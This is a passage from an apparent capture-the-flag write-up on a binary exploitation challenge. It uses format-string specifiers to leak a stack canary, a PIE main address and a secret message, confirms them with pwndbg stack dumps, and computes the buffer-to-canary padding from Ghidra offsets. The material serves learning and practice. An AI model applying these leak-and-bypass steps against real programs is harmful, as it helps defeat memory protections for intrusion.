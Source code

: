 ```python
22: b'(nil)\x00\x00\x00'
23: b'0x7fff875ae308'
24: b'0x559e87235d50'
```
doing this multiple times we can say that 
- %13$p is the canary value (00 at the end)
- %17$p is the main address (not 0x7f or 0xff at the start and seems like legit address value)
we can confirm our main address using gdb

```python
pwndbg> tele $rsp 30
00:0000│ rsp 0x7fffffffdc60 —▸ 0x7fffffffedd9 ◂— 0x474458006f6b6f79 /* 'yoko' */
01:0008│-038 0x7fffffffdc68 ◂— 0x0
02:0010│-030 0x7fffffffdc70 ◂— 0x0
03:0018│-028 0x7fffffffdc78 ◂— 0x610000000000
04:0020│-020 0x7fffffffdc80 ◂— 0x0
... ↓        2 skipped
07:0038│-008 0x7fffffffdc98 ◂— 0xcb1f6510ae22e500
08:0040│ rbp 0x7fffffffdca0 ◂— 0x1
09:0048│+008 0x7fffffffdca8 —▸ 0x7ffff7def6ca (__libc_start_call_main+122) ◂— mov edi, eax
0a:0050│+010 0x7fffffffdcb0 ◂— 0x0
0b:0058│+018 0x7fffffffdcb8 —▸ 0x555555555374 (main) ◂— endbr64 
0c:0060│+020 0x7fffffffdcc0 ◂— 0x100000000
```

```python
pwndbg> p 0x7fffffffdc60-0x7fffffffdcb8
$1 = -88
```
since top of the stack is the secret message, and %6$p is the start of rsp
```python
>>> 88//8 + 6
17
```
we can confirm that %17$p is the main address
### Key Findings

- The secret message is found at `%6$s`.
- The canary value is at `%13$p`.
- A PIE address is at `%17$p`.

### finding padding till canary

```python
Stack[-0x10] canary
Stack[-0x35] buffer
```
using ghidra it will show the offsets of buffer and canary
we can find the distance between
```python
>>> 0x35 - 0x10
37
>>> hex(37)
'0x25'
```
